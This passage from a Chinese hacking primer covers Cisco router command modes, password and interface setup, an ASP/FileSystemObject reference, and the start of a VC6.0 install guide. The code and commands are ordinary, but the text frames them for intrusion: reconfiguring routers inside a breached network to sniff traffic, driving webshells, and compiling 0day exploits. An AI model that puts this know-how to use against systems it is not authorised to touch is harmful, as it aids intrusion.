路由器几乎全是思科公司制造或遵守思科标准体系制造的，就好像 CPU 中的 INTEL 和 AMD 一样，占据着几乎所有的份额，所以学习路由器自然以思科路由器为代表。思科生产的路由器基本上高、中、低端齐全，大、中、小型网络型号兼有，大家可以通过下面的介绍来了解：

| 系列 | 特性 |
|---|---|
| 700 系列 | ISDN 路由器；76x 型：1E(10baseT)+1\*BRI(NT1)；77x 型：4E(10baseT)+2 个模拟电话端口(NT1)；支持 30 个用户 |
| 800 系列 | 采用 Cisco IOS 技术的 ISDN、IDSL 和串行路由器；1\*BRI（可选的 NT1）、IDSL 或 1 端口串行；可选的 4 端口以太网集线器和 2 个模拟电话端口（NT1 型号）；增强的安全特性 |
| 1000 系列 | 固定配置桌面访问路由器；1E；1\*BRI（可选的 NT1）或 1 端口同步或异步串行 |
| 1400 系列 | ADSL 路由器；1E(10baseT) 和 1ATM-25(1401)，或 1E 和 1ADSL(DMT-2)(1417)；旨在提供高达 8Mbps 的 DSL 访问；Cisco 端到端 DSL 解决方案的一部分 |
| 1600 系列 | 模块化桌面访问路由器；1E or 2E(10baseT)；1\*BRI（可选的 NT1）或 1 端口同步或异步串行；1WIC 槽 |
| 1700 系列 | 灵活、安全的模块化访问路由器；1FE；模块化插槽支持广泛的广域网和模拟语音接口卡；支持安全的 Internet、LAN、WAN 访问以及新广域网应用，包括 VPN、集成化语音/VoIP 和宽带 |
| 2500 系列 | 固定配置及模块化配置访问路由器和服务器；单或双 LAN、Ethernet or TokenRing；路由器/集线器或访问服务器；单、双串行或高密度串行模型 |
| 2600 系列 | 模块化访问路由器、语音数据网关和拨号访问服务器；单或双 LAN、Ethernet or TokenRing；与 1600、1700 和 3600 系列共享 WAN Interface 和网络模块；广泛的介质支持，包括异步和同步串行、ISDN、部分和多路 T1/E1、以太网、模拟调制解调器和 ATM |
| 3300 系列 | 承载级 SONET 访问设备；完全冗余的平台；结合 SONET 可靠性和第三层意识；以太网接口支持可以为桥接或路由配置的不同服务接口，并通过面向集线器、交换机或路由器的 10BaseT 连接本地局域网 |
| 3600 系列 | 模块化的高密度访问路由器；2、4 和 6 插槽型路由器；广泛的介质支持，包括异步和同步串行、ISDN、多路 T1/E1、以太网、快速以太网、令牌环网、数字调制解调器和 ATM；通过 IP 或帧中继提供语音/传真 |
| 4000 系列 | 模块化的高密度路由器；适用于所有型号的 3 个插槽；可以选择 100-MHz 或 133-MHz 处理器；广泛的介质支持，包括异步和同步串行、ISDN、多路 T1/E1、以太网、快速以太网、令牌环网、FDDI、HSSI 和 ATM |
| 6400 系列 | 用于在 POP 或总部端接大量用户和多域服务的承载级集台设备；每个平台多达 14000 个用户端接口；L2TP、LAC/LNS、多域服务；全 ATM 功能 |

| 系列 | 说明 |
|---|---|
| 6700 系列 | 提供电路交换和基于包的语音/数据流量的集成化访问平台；提供端到端集成化语音和数据服务的模块化、可伸缩的高密度平台；5 个用于 RT 和 CPE 应用的线路卡插槽（6705）；32 个用于 CO 和 RT 应用的线路卡插槽（6732）。 |
| 7100 系列 | 大型分支机构和中央站点 VPN 路由器；全面的 VPN 服务套件，包括加密、隧道、防火墙及带宽管理；方便部署的嵌入式 I/O；用于 IPSec 和 PPTP 加密协同处理的服务模块插槽。 |
| 7200 系列 | 提供智能服务、模块性、高性能和可伸缩性的广域网边缘路由器；完全模块化、机箱式；4 或 6 插槽模型，可选择三种系统处理器；广泛的局域网和广域网选项，包括以太网、快速以太网、100VG-AnyLan、令牌环网、FDDI、串行、ISDN、HSSI、ATM、Packet over DS3/E3。 |
| 7500 系列 | 主要的高端服务启动的核心及广域网集成路由器，适合企业级服务供应商应用中的语音、视频和数据；5、7 和 13 插槽模型；1、2 或 4 个总线模型，提供 1、2 或 4Gbps 背板；广泛的局域网和广域网选项，包括以太网、快速以太网、千兆以太网、令牌环网、FDDI、串行、ISDN、HSSI、ATM、Packet over DS3/E3。 |
| 12000 系列 | 可伸缩的千兆交换路由器（GSR）；8、12 或 16 插槽模型；根据型号不同提供 40、60 或 80Gbps 交换光纤；为 IP 进行了优化；承载级。 |

现在的 ADSL 猫很多都有路由功能，不过功能很简单，如图 1。从黑客的角度来看，密码管理也很松散。这里我们探讨的路由器，是指网络中使用的具有真正路由功能与职责的路由器。

**路由器一般可以通过两种方式访问，一种是用 80 端口从 Web 访问，另一种是通过 Telnet 访问（23 端口）。** 一般来说，常见的 ADSL 路由器都只能通过 80 端口访问，所以从个人经验来看，我们可以把是否能用 23 端口访问路由器，作为推测是否为真正路由器的依据。


图 1

另外，路由器是可以在不同的接口上分别绑定不同端口的。这句话的意思是，认为一个 IP 就是一个路由器的想法是行不通的。如图 2，有一台路由器 A，但是在两个接口上分别绑定了不同的 IP 地址：主机 A 连接到的 IP 为 10.65.1.2，主机 B 连接到的 IP 为 10.66.1.2。千万不要以为在这个网络系统中有两个路由器，这只是路由器上的两个不同接口而已。

如果路由器能通过 80 端口访问，设置和配置都是有文字和说明的，操作起来简单明了。不过这种机会一般不多，特别是我们在内网中“穿梭”时，也很难有这么好的图文界面条件，所以本文只讨论在 cmd 界面下思科路由器的一些简单操作。


### 命令状态

- 1. `router>`

路由器处于用户命令状态，如图 3。这时用户可以查看路由器的连接状态、访问其他网络和主机，但不能查看和更改路由器的设置内容。


- 2. `router#`

在 `router>` 提示符下输入 `enable` 后回车，路由器进入特权命令状态 `router#`，有时需要输入密码，如图 4。这时不但可以执行所有的用户命令，还可以查看和更改路由器的设置内容。使用 `exit` 命令可以退出特权命令状态。


- 3. `router(config)#`

在 `router#` 提示符下输入 `configure terminal`，出现提示符 `router(config)#`，此时路由器处于全局设置状态，如图 5。这时可以设置路由器的全局参数，`end` 命令可以退出全局设置状态。

路由器下我们最先要掌握的是密码设置。思科路由器与安全相关最常见的密码有两个：一个是 **Telnet 密码**，拥有这个密码才能让你从别的主机访问到路由器；第二个是特权状态密码，拥有它你才能以特权身份执行命令。

在上面介绍思科路由的三种状态时，如图 4 的第二种 `router#` 状态中，可以看到一个 `password` 提示符，那里就是输入特权状态密码的，正确后才进入 `router#` 状态。

> 先看看如何设置 Telnet 密码，首先要进入特权模式，输入命令：`enable`；然后进入全局配置状态，输入命令：`configure terminal`。

下一步进入虚拟终端配置模式，在此模式可对 Telnet 功能进行配置，输入命令：`line vty 0 4`。

下一步进入 `login` 配置选项，输入命令：`login`，将 Telnet 密码改为 `nohack`，输入命令：`password nohack`。

以上操作的执行过程如图 6。配置成功后，我们可以从电脑上 Telnet 到路由器进行远程操作。如果路由器没有配置过 Telnet 密码，是 telnet 不上路由器的，这是默认的安全策略。现在有了密码，我们可以成功登录了，如图 7。


再来学习一下如何配置特权状态密码，也要先进入全局配置状态，上面已经介绍过了，就不重复演示了。不过配置特权状态密码不需要用 `line vty 0 4` 命令进入虚拟终端配置，直接在全局状态下使用命令：`enable password nohack`，这样特权模式的密码就被改成了 `nohack`。


继续学习一个非常重要的命令，它可以对路由器接口进行基本配置，指定其 IP 地址和子网掩码。

先介绍一下路由器接口的命名规则，**路由器上有两类接口，一种是串口接口，用字符 S 表示，另一种是以太网接口，用字符 F 表示**，范例如下：

> S0/0 就是指第 0 个 slot、第 0 个模块的第 0 个串口  
> F0/0 就是以太网第 0 个模块的第 0 个快速以太网接口

在路由器下使用 **show interfaces** 命令，路由器会返回当前各个端口的状态，大家能从下面的信息中看出什么呢？

```text
FastEthernet0/0 is up, line protocol is up
  Hardware is AmdFE, address is 0007.eb78.dda1
  Internet address is 10.65.1.2 255.255.0.0
  MTU 1500 bytes, BW 100000 Kbit, DLY 100 usec,
     reliability 255/255, txload 1/255, rxload 1/255
  Encapsulation ARPA, loopback not set
  Keepalive set (10 sec)
  Half-duplex, Auto Speed, 100BaseTX/FX
  ARP type: ARPA, ARP Timeout 04:00:00
  Last input never, output 00:00:06, output hang never
  Last clearing of "show interface" counters never
  Queueing strategy: fifo
  Output queue 0/40, 0 drops; input queue 0/75, 0 drops
  5 minute input rate 0 bits/sec, 0 packets/sec
  5 minute output rate 0 bits/sec, 0 packets/sec
     0 packets input, 0 bytes
     Received 0 broadcasts, 0 runts, 0 giants, 0 throttles
     0 input errors, 0 CRC, 0 frame, 0 overrun, 0 ignored
     0 watchdog
     0 input packets with dribble condition detected
     50 packets output, 3000 bytes, 0 underruns
     0 output errors, 0 collisions, 2 interface resets
     0 babbles, 0 late collision, 0 deferred
     0 lost carrier, 0 no carrier
     0 output buffer failures, 0 output buffers swapped out

FastEthernet0/1 is down, line protocol is down
  Hardware is AmdFE, address is 0007.eb78.dda2
  Internet address is
  MTU 1500 bytes, BW 100000 Kbit, DLY 100 usec,
     reliability 255/255, txload 1/255, rxload 1/255
  Encapsulation ARPA, loopback not set
  Keepalive set (10 sec)
  Half-duplex, Auto Speed, 100BaseTX/FX
  ARP type: ARPA, ARP Timeout 04:00:00
  Last input never, output 00:00:06, output hang never
  Last clearing of "show interface" counters never
  Queueing strategy: fifo
Output queue 0/40, 0 drops; input queue 0/75, 0 drops
5 minute input rate 0 bits/sec, 0 packets/sec
5 minute output rate 0 bits/sec, 0 packets/sec
0 packets input, 0 bytes
Received 0 broadcasts, 0 runts, 0 giants, 0 throttles
0 input errors, 0 CRC, 0 frame, 0 overrun, 0 ignored
0 watchdog
0 input packets with dribble condition detected
50 packets output, 3000 bytes, 0 underruns
0 output errors, 0 collisions, 2 interface resets
0 babbles, 0 late collision, 0 deferred
0 lost carrier, 0 no carrier
0 output buffer failures, 0 output buffers swapped out

Serial0/0 is administratively down  line protocol is down
Hardware is DSCC4 Serial
Internet address is
MTU 1500 bytes, BW 2048 Kbit, DLY 20000 usec,
reliability 255/255, txload 1/255, rxload 1/255
Encapsulation HDLC, loopback not set
Keepalive set (10 sec)
Last input never, output never, output hang never
Last clearing of "show interface" counters never
Input queue: 0/75/0/0 (size/max/drops/flushes); Total output drops: 0
Queueing strategy: weighted fair
Output queue: 0/1000/64/0 (size/max total/threshold/drops)
Conversations 0/0/256 (active/max active/max total)
Reserved Conversations 0/0 (allocated/max allocated)
Available Bandwidth 1536 kilobits/sec
5 minute input rate 0 bits/sec, 0 packets/sec
5 minute output rate 0 bits/sec, 0 packets/sec
0 packets input, 0 bytes, 0 no buffer
Received 0 broadcasts, 0 runts, 0 giants, 0 throttles
1 input errors, 0 CRC, 0 frame, 0 overrun, 0 ignored, 1 abort
0 packets output, 0 bytes, 0 underruns
0 output errors, 0 collisions, 4 interface resets
0 output buffer failures, 0 output buffers swapped out
0 carrier transitions
DCD=up DSR=up DTR=down RTS=down CTS=up

Serial0/1 is administratively down  line protocol is down
Hardware is DSCC5 Serial
Internet address is
MTU 1500 bytes, BW 2048 Kbit, DLY 20000 usec,
reliability 255/255, txload 1/255, rxload 1/255
Encapsulation HDLC, loopback not set
Keepalive set (10 sec)
Last input never, output never, output hang never
Last clearing of "show interface" counters never
Input queue: 0/75/0/0 (size/max/drops/flushes); Total output drops: 0
Queueing strategy: weighted fair
Output queue: 0/1000/64/0 (size/max total/threshold/drops)
Conversations 0/0/256 (active/max active/max total)
Reserved Conversations 0/0 (allocated/max allocated)
Available Bandwidth 1536 kilobits/sec
5 minute input rate 0 bits/sec, 0 packets/sec
5 minute output rate 0 bits/sec, 0 packets/sec
0 packets input, 0 bytes, 0 no buffer
Received 0 broadcasts, 0 runts, 0 giants, 0 throttles
1 input errors, 0 CRC, 0 frame, 0 overrun, 0 ignored, 1 abort
0 packets output, 0 bytes, 0 underruns
0 output errors, 0 collisions, 4 interface resets
0 output buffer failures, 0 output buffers swapped out
0 carrier transitions
DCD=up DSR=up DTR=down RTS=down CTS=up
```

这一大片字符如果看不懂没有关系，看主要关键字就行了，我已经用粗体字符标记了，也就是 **FastEthernet0/0、FastEthernet0/1、Serial0/0、Serial0/1** 这四串字符，分别表示了 f0/0、f0/1、s0/0、s0/1 四个接口的状态。

假设现在需要对 f0/1 这个接口进行配置，先使用 **enable** 命令和 **configure terminal** 命令进入特权状态和全局配置状态，再用 **int f0/1** 命令进入该接口的配置状态，然后用命令 **ip address 10.66.1.2 255.255.0.0** 把该接口指定为 IP 10.66.1.2、子网掩码 255.255.0.0。最后把配置保存并启用该接口，命令为：**no shutdown**。如图 8，为以上操作的命令执行过程。


对于路由器最基本的常识和命令就介绍到这里。路由器的使用是一门可以考验工程师的技术，可不是如此一点内容就可以介绍完的。本书的宗旨是在引导入门而已，在实际应用中，操作路由可以对接口重新配置，达到允许外连，或与目标机调整到同一内网中进行嗅探等应用。

## 四十五、ASP 脚本精解入门

学习到一定程度，不掌握 ASP 脚本是无法继续探究网络安全奥秘的。网络的主要安全对象——网站，就是用各种不同的代码编写的。在中国，许多网站都是采用 ASP 脚本编写代码，即 Active Server Page（动态服务器网页）。如果在编写网页代码的过程中出现纰漏，就有可能造成漏洞。现在最流行的直接针对性攻击模式，无论是 SQL 注入还是 XSS，大部分都是基于程序漏洞而来的。

要对程序漏洞进行发现和利用，必须先了解程序代码。学习 ASP 代码的编写，可以作为其他网页程序 PHP、ASPX、JSP 等学习的入门。因为说到底，这几种编程的思维架构大同小异，只是对象、方法等有一些不同。

想用一章就掌握 ASP 编程明显是不可能的，但是掌握了 ASP 的结构方法，形象地理解了它的语法、特点和规则，学习起来一定是事半功倍的。本章的作用就像是一篇 ASP 的导读和总纲，使大家能够掌握必备的 ASP 基础知识和应用。

ASP 程序的作用直观地说是从网页上返回我们要看到的信息，网络安全方面的应用则是……用 webshell 达到对文件及数据库的操作。打个比方吧，服务器就相当于一个仓库，ASP 就像是工作在其中的一个机器人，它根据“指令”，也就是 ASP 代码来完成各种任务。比如在访问者的浏览器中显示新闻，这些新闻是从“仓库”（数据库服务器）中搬出来陈列在网页上的。我们用 webshell 操作网站上的文件或连接服务器，从表面看是用鼠标点击实现的，实际上每个功能的实现都是 ASP 的功劳。

刚才说到如果把 ASP 解析程序当作一个理解我们的命令并执行的“机器人”，那我们编写的代码就是指挥“机器人”动作的“指令”。从逻辑上理解指令并不复杂，想想当你向你的宠物小狗或是小猫发命令时，会怎么说？我想通常会说：“欢欢，去把那个球衔来放到我面前。”

这段指令中包含几个重要的信息，首先是你发出指令的对象——宠物的名字“欢欢”，行动的方法——“衔”，行动的目标——“球”，行动的目的——“放到我面前”。那它的条件限制，如“那个”就相当于参数。如果宠物能听懂，自然就会按你的指令去做。我们的 ASP 程序就是一只绝对听话的宠物，在通过编写源代码给 ASP 程序下指令时也是用的这个逻辑。

先来看一段 ASP 创建文件的代码：

```asp
<%
Set FSObject=Server.CreateObject("Scripting.FileSystemObject")
Set Myfile=FSObject.CreateTextFile(Server.MapPath("nohack.txt"))
Myfile.WriteLine("大家好，一起来学习 ASP 代码吧")
Myfile.Close
%>
```

不要觉得在什么都没了解之前就看代码会打击学习热情，只要明白了代码的逻辑，是很容易搞清楚代码功能的。

第一行的 `("Scripting.FileSystemObject")` 定义了要发出指令的对象，即 Scripting.FileSystemObject，它告诉 ASP 处理机制是对谁下的命令，就如上文例子中的“欢欢”，也可以是“佩佩”等其它对象。

图1

> Set FSObject=Server.CreateObject 是一个标准的句式结构，Server.CreateObject 的意思是创建对象，Set FSObject 的意思是把后面创建的对象赋值给 FSObject 这个变量。

第二行的 `FSObject.CreateTextFile` 指定行动的方法——生成一个文件，这相当于上例中的让宠物去“衔”。在后面的 `(Server.MapPath("nohack.txt"))` 指定了行动的目标——nohack.txt。

第三行的 `Myfile.WriteLine` 指定了行动的目的，在文件中写入后面双引号中的内容。第四行的 `Myfile.Close` 表示命令已经发完了，可以开始执行了。

这些指令只有在两个 `<% %>` 之间写入时才会被 ASP 程序接受。把这段代码保存为 test.asp，从 IE 访问一次，在网站目录下生成了一个名为 nohack.txt 的文件，内容是：“大家好，一起来学习 ASP 代码吧”，如图1。ASP 的代码逻辑基本都是这样的，再看一个例子，代码如下：

```asp
<%
Set FSObject=Server.CreateObject("Scripting.FileSystemObject")
If FSObject.FileExists("f:\www\conn.asp") Then
    Response.Write("<h3>conn.asp 文件存在</h3>")
Else
    Response.Write("<h3>conn.asp 文件不存在</h3>")
End If
%>
```

我们来梳理一遍这段代码的实质：第一行，仍是指定 `Scripting.FileSystemObject` 这个对象完成任务，`Set FSObject=Server.CreateObject` 的写法和上面一样，都属于标准的写法格式，意思是创建对象并赋给 FSObject。

第二行，出现了一串新字符串 `FSObject.FileExists`，上一例中的第二行是 `FSObject.CreateTextFile`，很显然这次让 FileSystemObject 对象执行的任务与上次不同了。FileExists 的意思是如果后面指定的文件存在，返回 True，否则就返回 False，其中还使用了 `If...Then` 条件语句。

第三行，`Response.Write` 也是一个新字符串，说明是完成一个新的任务，它的功能是输出字符到页面，输出的内容是 `<h3>conn.asp 文件不存在</h3>`。

这就是 ASP 程序的运行逻辑，首先定义调用哪个“对象”来执行操作，对象的决定是执行哪一个大方向的操作。例如上面两个例子中，都使用 `FileSystemObject` 对象，该对象主要是对文件进行操作。一个大对象下面还会有几个子对象，例如 `FileSystemObject` 对象下面还包括 `TextStream、File、Folder 和 Drive` 等子对象，它们分别代表对文件、目录、硬盘等进行操作，所以是一个对象代表着某一大方向的操作。

图2

这种对象在 ASP 程序中还包括很多，比如对数据库进行操作的 ADO 对象，下面也有若干子对象，例如 Connection 对象（负责连接数据库的相关操作）、RecordSet（负责查询或操作已连接的数据库内的数据）对象等。在网站的 conn.asp 文件中，通常我们能找到 Connection 对象的声明，如图2。

而在调用数据库显示信息的文件中，我们通常都能看到 Recordset 对象的声明，如图3。具体进行哪些操作在 ASP 中被称为“方法”，一个对象下面有若干个“方法”，然后用“方法”来决定去做什么。例如第一例中的 `CreateTextFile`，表示要建立一个文件，第二例中的 `FileExists` 方法，表示判断文件是否存在。

另外，各方法都有一些“属性”作为参数，再与一些简单的 VB 语法和 HTML 结合，这就是 ASP 程序的基本概貌。

学习 ASP，以笔者个人经验来说，主要是考验记忆力。语法是相当简单的，关键要记住各对象、方法及其属性，然后就基本能读懂 ASP 代码了。下面给出一些在 ASP 中常用的对象，包括了它们的属性或集合的使用方法：

图3

### Response 对象

- `Response.Write StrVar/"String"`：向网页写出参数值或字符串，等同于在 HTML 标记中嵌入 `<%=StrVar/"String"%>`
- `Response.End`：停止页面编译，并将已编译内容输出到浏览器
- `Response.Buffer=True|False`：页面编译时是否使用缓存的设置，一般在页面头部设置
- `Response.Flush`：强制输出页面已编译部分内容
- `Response.Clear`：将缓冲区内的数据清除
- `Response.Redirect URL`：停止页面编译或输出，转到指定所需页面
- `Response.IsClientConnected`：返回 True|False，检测用户是否还处于连接状态
- `Response.Charset(CharsetName)`：设置页面编码类型，即 `<meta http-equiv="Content-Type" content="text/html; charset=gb2312">`
- `Response.ContentType [= ContentType]`：设置页面文件类型
- `Response.Expires [= number]`：设置页面失效时间，单位为分钟
- `Response.ExpiresAbsolute [= [date] [time]]`：设置页面失效的绝对时间
- `Response.Status = StatusDescription`：设置页面状态描述

### Request 对象

- `Request("PassStrName")`：读取网页传递值，包括表单及以 `PassStrName=value&PassStrName_n=value_n` 形式的参数
- `Request[.Collection|Property|Method](variable)`
- `Request.QueryString("PassStrName")`：读取 Get 方法传递的表单值和 `PassStrName=value`
- `Request.QueryString(Variable)[(Index).Count]`
- `Request.Form("PassStrName")`：读取 Post 方法传递的纯表单域的值
- `Request.Form(Parameter)[(Index).Count]`
- `Request.ServerVariables(Server Environment Variable)`：读取客户端系统环境变量
- `Request.BinaryRead(Count)`：读取指定字节数的传送值
- `Request.TotalBytes`：查询体的长度，以字节为单位，只读

### Session 对象

- `Session("SesName") = value`：存储 Session 变量值，也可读取该值
- `Session("SesName") = Empty`：判断 Session 值是否存在的两种方法之一
- `IsEmpty(Session("SesName")) = True|False`：判断 Session 值是否存在的两种方法之二
- `Session.TimeOut = num`：设置 Session 变量的存在时效，单位：分钟
- `Session.Abandon`：清除所有 Session 变量值
- `Session.SessionID`：Session 变量的 ID 序列号，只读

### Application 对象

- `Application("AppName") = value`：存储 Application 变量值，也可读取该值
- `Application("AppName") = Empty`：判断 Application 值是否存在的两种方法之一
- `IsEmpty(Application("AppName")) = True|False`：判断 Application 值是否存在的两种方法之二
- `Application.Lock`：Application 变量值锁定，防止同时更改变量值
- `Application.UnLock`：Application 变量值解锁，允许更改变量值

注：Session 与 Application 变量都可以用来存储数组和系统对象，引用方法是变量名相当于数组名而已，但不能直接改变其值，需要借助临时数组修改值后，再赋给 Session 与 Application 变量。

### Server 对象

- `Server.MapPath("FileUrl")`：映射文件名的服务器站点绝对地址，`Path = Server.MapPath("./")` 可以得到虚拟目录根路径
- `Server.HtmlEncode("string")`：转换为可以直接显示带 HTML 格式的字符串
- `Server.URLEncode("string")`：转换为浏览器地址编码
- `Set Var = Server.CreateObject("ObjName")`：创建对象变量
- `Server.ScriptTimeout = NumSeconds`：ASP 程序页面执行时限，以秒为单位

### Cookies

存储在用户本机的临时变量，每个 Cookie 的最大字节为 4KB，最多可以有 300 个 Cookie，共 1.2MB。

- `Response.Cookies("StrCookieName") = value`：存储 Cookie 变量值，也可读取该值
- `Response.Cookies("StrCookieName") = ""`：判断是否为空
- `Response.Cookies("StrCookieName").Expires = Date`：变量有效期，以天为单位，小于当前时间立即失效
- `Response.Cookies[Cookie[(key).Attribute]]`：标准语法

以上五个对象，即 Response 对象、Request 对象、Session 对象、Application 对象、Server 对象在 ASP 中被称为内置对象，它们与其它外置对象的区别在于使用时不需要声明，即不需要像前面的有些例子那样，在使用前要把对象用下面的语句声明。

```asp
Set FSObject=Server.CreateObject("Scripting.FileSystemObject")
```

比如使用内置对象 Server 对象中的 MapPath 方法来得到某个文件所处的路径，就不需要声明，直接用以下语句编写一个 ASP 文件，执行后的结果如图4。

```asp
<% Response.Write "文件绝对路径" %>
<%=Server.MapPath("test.asp")%>
```

从代码中可以看到，没有经过声明，直接使用 `Server.MapPath("test.asp")` 得到文件路径，然后通过前面的一个 `=` 号把结果赋给另一个内置对象 `Response.Write`，最后把结果显示到页面上。

图4

其它对于我们网络安全来说比较重要的是 `FileSystemObject` 对象，在最开始举的两个例子中，都是用这个对象进行举例。`FileSystemObject` 对象只有一个属性 `Drives`，它用于得到当前机器上的所有有效驱动器的列表，返回本地计算机可用的驱动器列表。

> FileSystemObject 对象提供了使用从属对象的一系列方法，还包括 Drive、Folder 和 File 等子对象。它也实现了用于 TextStream 对象的两个方法：CreateTextFile 和 OpenTextFile。

根据所使用的对象的类型，将方法划分为三类：

## 1、与驱动器有关的方法

#### `DriveExists(drivespec)`

如果在 drivespec 中指定的驱动器存在，则返回 True，否则返回 False。drivespec 参数可以是一个驱动器字母，或者是文件、文件夹的完整绝对路径。

#### `GetDrive(drivespec)`

返回 drivespec 指定的驱动器所对应的 Drive 对象。drivespec 可以包含冒号、路径分隔符或者是网络共享名，即：`"C"`、`"C:"` 及 `"\\machinesharename"`。

#### `GetDriveName(drivespec)`

用字符串返回 drivespec 指定的驱动器的名称。drivespec 参数必须是文件或文件夹的绝对路径，或者仅仅是驱动器字母，例如：`"c:"` 或 `"c"`。

## 2、与文件夹有关的方法

#### `BuildPath(path,name)`

在已有的路径 path 上增添名字为 name 的文件或文件夹，如果需要，则增添路径分隔符 `\`。

#### `CopyFolder(source,destination,overwrite)`

从指定的源文件夹 source（可以包含通配符）中复制一个或多个文件夹到指定的目标文件夹 destination，包含了源文件夹中的所有文件。如果 source 包含通配符或 destination 末尾是路径分隔符（`\`），那么认为 destination 是要放置源文件夹的拷贝文件夹。否则的话，认为 destination 是要创建新文件夹的路径名。如果 destination 文件夹已经存在且 overwrite 参数设置为 False，将产生错误，缺省的 overwrite 参数是 True。

#### `CreateFolder(foldername)`

创建一个路径名为 foldername 的文件夹，如果 foldername 已经存在将产生错误。

#### `DeleteFolder(folderspec,force)`

删除由 folderspec 指定的一个或多个文件夹（可以在路径的最后部分包含通配符）及文件夹中的所有内容。如果可选的 force 参数设置为 True，那么即使文件夹包含的文件具有只读属性，也将删除该文件夹。缺省的 force 参数是 False。

#### `FolderExists(folderspec)`

如果 folderspec 指定的文件夹存在则返回 True，否则返回 False。folderspec 参数可以包含文件夹的绝对或相对路径，或者仅仅是当前文件夹中看到的文件夹名。

#### `GetAbsolutePathName(pathspec)`

返回明确指定文件夹的路径，其中要考虑到当前文件夹的路径。例如，如果当前文件夹是 “c:docsales”，而 pathspec 是 “jan”，返回的字符串是 “c:docsalesjan”。通配符、“.” 和 “\” 路径操作符都是可以接受的。

#### `GetFolder(folderspec)`

返回 folderspec 指定的文件夹对应的 Folder 对象。folderspec 可以是文件夹的相对或绝对路径。

#### `GetParentFolderName(pathspec)`

返回 pathspec 文件或文件夹的上一级文件夹，不检验该文件夹是否存在。

#### `GetSpecialFolder(folderspec)`

返回一个特定的 Windows 文件夹相对应的 Folder 对象。参数 folderspec 的允许值是 WindowsFolder(0)、SystemFolder(1) 和 TemporaryFolder(2)。

#### `MoveFolder(source,destination)`

将 source 指定的一个或多个文件夹移动到 destination 指定的文件夹。在 source 里可以包含通配符，但在 destination 中不行。如果 source 包含通配符或 destination 末尾是路径分隔符（`\`），则认为 destination 是要放置源文件夹的文件夹，否则认为它是一个新文件夹的完整路径和名字。如果目的文件夹 destination 已经存在则产生错误。

## 3、与文件有关的方法

#### `CopyFile(source,destination,overwrite)`

将 source（可包含通配符）指定的一个或多个文件复制到指定的目标文件夹 destination。如果 source 包含通配符或 destination 末尾是路径分隔符（`\`），那么认为 destination 是文件夹。否则认为 destination 为一新文件的完全路径和名称。如果目标文件夹已经存在且 overwrite 参数设置为 False，将产生错误。缺省的 overwrite 参数是 True。

#### `CreateTextFile(filename,overwrite,unicode)`

用指定的文件名 filename 在磁盘上创建一个新的文本文档，并返回与其对应的 TextStream 对象。如果可选的 overwrite 参数设置为 True，则覆盖同一路径下已有的同名文件，缺省的 overwrite 参数是 False。如果可选的 unicode 参数设置为 True，则该文件的内容将存储为 Unicode 文本，缺省的 unicode 参数是 False。

#### `DeleteFile(filespec,force)`

删除由 filespec 指定的一个或多个文件（可以在路径的最后部分包含通配符），如果可选的 force 参数设置为 True，那么也删除具有只读属性的文件。缺省的 force 参数是 False。

#### `FileExists(filespec)`

如果 filespec 指定的文件存在则返回 True，否则返回 False。filespec 参数可以包含文件的绝对路径或相对路径，或者是当前文件夹中的文件名。

`GetBaseName(filespec)`

返回 filespec 指定的文件的名称，即包含文件路径但去掉了文件的扩展名。

`GetExtensionName(filespec)`

返回 filespec 指定的文件的扩展名。

`GetFile(filespec)`

返回 filespec 指定的文件所对应的 File 对象，可以指定文件的相对或绝对路径。

`GetFileName(pathspec)`

返回 pathspec 指定的文件的路径或文件名，如果没有文件名就返回最后的文件夹名，不检查该文件或文件夹是否存在。

`GetTempName()`

返回一个随机产生的文件名，用于完成运算所需的临时文件或文件夹。

`MoveFile(source,destination)`

将 source 指定的一个或多个源文件移动到 destination 指定的目的文件夹。在 source 里可以包含通配符，但 destination 不行。如果 source 包含通配符或 destination 末尾是路径分隔符（`\`），那么认为 destination 是一文件夹。否则，认为 destination 是一新文件夹的完整路径和名称。如果目的文件夹已经存在则产生错误。

`OpenTextFile(filename,iomode,create,format)`

创建一个名叫 filename 的文件，或打开一个现有的名为 filename 的文件，并且返回一个与其相关的 TextStream 对象。filename 参数可以包含绝对或相对路径。iomode 参数指定了所要求的访问类型，允许的数值是 ForReading(1)（缺省）、ForWriting(2)、ForAppending(8)。

当写入或追加到一个不存在的文件时，如果 create 参数设置为 true，就将创建一个新文件。缺省的 create 参数是 False。

format 参数说明对文件读或写的数据格式，允许数值是：TristateFalse(0)（缺省），按照 ASCII 格式打开；TristateTrue(-1)，按照 Unicode 格式打开；TristateDefault(-2)，用系统缺省格式打开。

以上就是相关方法的简单介绍，其它对象还有 ADO 对象、上传组件等，但是和网络安全的相关性就不是很大了。ADO 对象的连接方法如果写得不够好，最多产生一个暴库漏洞；而上传组件的安全问题是看应用它的文件的过滤代码是怎么写的，而不在组件本身。

通过本章的学习，能自己编写 ASP 脚本是做不到的，但是相信再去看 ASP 代码时，只要你具备 HTML 和极少的 VB 编程逻辑常识，看懂 ASP 代码已经不是问题了，不信可以打开网站程序试试。

## 四十六、VC6.0安装与简介

在入侵中，各种各样的工具使用是必不可少的，但是很重要的一个基本事实是，很多最新最高端的工具往往只有源代码而没有现成的程序。许多根据微软漏洞发布的 0DAY，也是只有代码而没有编译成的程序（当你发现有 exe 工具出现时，此漏洞就已经过时了）。


我们必须学会自己把源码编译成可执行文件，现在编程工具有很多，有 C、C++、DELPHI、VB 等，不同的编程工具编写出的源码，也要用不同的方法去编译。这些编程方法里，最需要注意的是 C 和 C++。因为其它几种编程方法编写的通常不是底层工具，都属于图形化的综合工具，像 0DAY 这种东西在刚面世时可没有现成的 VB 和 DELPHI 源码的。在命令行下利用的工具基本都是 C 语言编写的，当被改写成“按几下按钮”就能应用的工具时，这些通常都是 VB 和 DELPHI 来完成。


编译 C 源码几乎都是在 VC 或 TC 环境下进行的，我们先在本机上安装 VC 吧，这里推荐大家还是用 VC6.0，现在虽然已经有 VC2005 了，但是其拥有 3G 的庞大容量，还是让人望而却步。如果你不是需要编译 .net 代码，在初学者的阶段，VC6.0 已经完全能满足你的需求了。


我们安装的是 VC6.0 中文企业版，这个是修改后的版本，中文界面能方便我们更快更好地使用。不过中文版毕竟不等于原版，如果日后在使用中发现无法解决的什么问题，建议还是换回英文原版试试。

下面我们就来安装 VC，把获得的压缩包……


解压后有几个文件，运行其中的 **AUTOYUN.EXE** 就开始安装了，如图 1。这个版本可以选择中文版和英文原版，我们选择中文版，如图 2。

